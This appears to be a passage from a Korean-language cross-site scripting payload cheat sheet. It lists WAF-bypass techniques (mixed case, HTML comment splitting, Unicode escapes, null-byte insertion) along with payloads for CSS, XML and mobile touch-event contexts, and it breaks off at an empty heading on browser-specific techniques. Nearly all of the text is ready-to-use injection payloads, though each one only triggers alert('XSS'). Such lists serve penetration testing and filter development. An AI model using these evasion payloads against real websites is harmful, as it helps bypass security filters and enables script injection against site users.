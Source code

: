 #### 3.5.3. WAF 우회 기법

**대소문자 혼용:**
```html
<ScRiPt>ALeRt('XSS')</ScRiPt>
<ImG sRc=X oNeRrOr=AlErT('XSS')>
```

**HTML 주석 삽입:**
```html
<scr<!--comment-->ipt>alert('XSS')</scr<!--comment-->ipt>
<img src=x one<!-- -->rror=alert('XSS')>
```

**특수 유니코드 문자:**
```html
<script>alert\u0028'XSS'\u0029</script>
<img src=x onerror=\u0061\u006c\u0065\u0072\u0074('XSS')>
```

**NULL 바이트 삽입:**
```html
<scri%00pt>alert('XSS')</scri%00pt>
<img src=x onerr%00or=alert('XSS')>
```

### 3.6. 컨텍스트별 특수 페이로드

#### 3.6.1. CSS 컨텍스트
```css
/* IE 전용 expression */
<style>body{x:expression(alert('XSS'))}</style>

/* CSS import 활용 */
<style>@import'data:text/css,*{x:expression(alert("XSS"))}';</style>

/* CSS url 함수 */
<style>body{background:url('javascript:alert("XSS")')}</style>
```

#### 3.6.2. XML/XHTML 컨텍스트
```xml
<![CDATA[<script>alert('XSS')</script>]]>
<?xml version="1.0"?><script>alert('XSS')</script>
```

#### 3.6.3. 모바일/터치 이벤트
```html
<div ontouchstart=alert('XSS')>Touch</div>
<div ontouchend=alert('XSS')>Touch End</div>
<div ongesturestart=alert('XSS')>Gesture</div>
<div onorientationchange=alert('XSS')>Rotate</div>
```

### 3.7. 브라우저별 특수 기법
